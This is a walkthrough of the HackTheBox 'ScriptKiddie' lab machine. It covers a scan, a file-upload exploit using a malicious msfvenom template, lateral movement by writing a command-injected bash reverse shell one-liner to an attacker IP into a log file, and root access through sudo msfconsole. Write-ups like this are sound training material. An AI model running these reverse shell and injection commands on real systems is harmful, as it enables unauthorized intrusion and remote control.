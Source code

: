 ```yaml
---
layout: post
title: "ScriptKiddie"
date: 2022-03-14
categories: [HackTheBox, Easy-HTB]
tags: [reverse-shell, metasploit, linux]
image: ../../assets/img/posts/ScriptKiddie.png

---
```


|**Machine**|[ScriptKiddie](https://app.hackthebox.com/machines/314)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[0xdf](https://app.hackthebox.com/users/4935)|

---

We'll start with connecting to HTB network by making connection with .ovpn file and then spin up machine. This box's IP is **10.10.10.226**.

Let's get started with nmap scan,

```bash
sudo nmap -A -T4 -p- 10.10.10.226 -oN nmap_scan
``` 

![image](https://user-images.githubusercontent.com/67465230/158149956-539b4179-236c-44b5-8557-f507dc61dac9.png)

We get the result with open ports 22 (SSH), 5000 (HTTP){unusual}.

Let's visit http://10.10.10.226:5000/,

![image](https://user-images.githubusercontent.com/67465230/158149967-774b06ae-e23d-4325-b5a6-0c567e160336.png)

It seems like this is a pre-built tool for newbie hackers. There seems to be many vulnerabilities like LFI, RFI, Command Injection, etc which we can used to get malicious with them to get shell on this machine. But after trying many vulns against machine, I've come across file upload vulnerability which can get us reverse shell.

Malicious Payload Creation: We'll create a payload which will work to get us a reverse shell. To create one, google "**template unix file exploit**" and click on rapid7 link [metasploit_msfvenom_apk_template_cmd_injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/). It has given how to make a template so we'll follow that and make a malicious file for us.

![image](https://user-images.githubusercontent.com/67465230/158149972-e97fa92a-ae08-470a-a58d-f414db0c4143.png)

there we've it in our local dir. Now, we'll start our netcat listener on port 4444 and upload this exploit on webpage,

after changing options, we can click on generate button

![image](https://user-images.githubusercontent.com/67465230/158149981-39500172-173d-41ab-b2bd-eae6384b0de1.png)

as soon as this file gets uploaded, we'll get our reverse shell on netcat using `nc -nvlp 4444`,

![image](https://user-images.githubusercontent.com/67465230/158149999-11b26381-e57c-4885-ba0b-8ec490eecfd6.png)

okay so we're in as **kid** user. But let's first upgrade the functionality of this shell,

```bash
/bin/bash -i
``` 

![image](https://user-images.githubusercontent.com/67465230/158150027-e89dc0b1-c79c-4039-bf5d-744b218d0dd5.png)

okay so we got functional shell. Let's look for user flag,

let's check where we are using **pwd** command and establish everything using **ls** command,

![image](https://user-images.githubusercontent.com/67465230/158150043-48b4b948-2ec2-4b67-bd99-f587e9d6f6e7.png)

we can see the user flag. 

![image](https://user-images.githubusercontent.com/67465230/158150051-f623de68-2f23-4237-abef-b0ecb631295f.png)

After some enum, I found that there is another user **pwn** and we cannot simply escalate privileges to root.
 
![image](https://user-images.githubusercontent.com/67465230/158150051-f623de68-2f23-4237-abef-b0ecb631295f.png)

So we'll have to do lateral escalation. There's a file in logs dir which has some permissions, let's view that

`ls -la` 

![image](https://user-images.githubusercontent.com/67465230/158150071-35c35176-e5b5-459a-a767-11fabe76f0f3.png)

we can see that we can write on this file and group is of pwn user. Let's start our netcat listener on new terminal and then we'll write the reverse shell one liner into file, which will get us reverse shell.

```bash
echo " ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.154/9002 0>&1' #" >> hackers
``` 

when this command runs, we'll instantly get **pwn** user shell.

![image](https://user-images.githubusercontent.com/67465230/158150078-7d793fb6-32e8-42a3-b24d-f2f506589555.png)

we're pwn user. 

Now's the time for privilege escalation. So we'll look for binaries which we can run using **sudo** command,

```bash
sudo -l
``` 

![image](https://user-images.githubusercontent.com/67465230/158150096-df1aacc7-eb64-4eb8-ae9c-27d912c968b9.png)

and we can see that we can run msfconsole with sudo command w/o providing password. Let's fire this command to see what happens,

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
``` 

![image](https://user-images.githubusercontent.com/67465230/158150101-3d20adef-8b76-48a9-b3fb-e5c88b7318af.png)

and we got system shell!!!! Let's look for root flag,

navigating to root dir and cat out root flag's content,

```bash
cat root.txt
```

![image](https://user-images.githubusercontent.com/67465230/158150114-7fec1176-bbaf-485a-b3a3-36e7fe4078e3.png)